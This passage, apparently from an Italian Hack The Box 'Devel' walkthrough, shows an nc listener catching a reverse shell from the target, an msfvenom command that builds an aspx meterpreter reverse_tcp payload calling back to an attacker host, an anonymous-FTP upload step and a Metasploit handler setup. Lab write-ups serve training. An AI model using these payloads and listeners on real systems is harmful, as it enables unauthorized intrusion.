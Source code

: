 ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/devel]
└─# nc -nvlp 4444                                                                               
listening on [any] 4444 ....
```

Otteniamo una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/devel]
└─# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.5] 49232
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```


## **GAINING A FOOTHOLD WITH METASPLOIT**

Generiamo un semplice payload con msfvenom:

```bash

┌──(root㉿kali)-[/home/kali/htb/devel]
└─# msfvenom -p windows/meterpreter/reverse_tcp -f aspx LHOST=10.10.14.39 LPORT=5555 -o met_rev_shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2886 bytes
Saved as: met_rev_shell.aspx
```

Ci colleghiamo al Server remoto tramite ftp anonymouns e scarichiamo il payload generato prima con msfvenom

Apriamo MSFCONSOLE e la settiamo come segue:

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```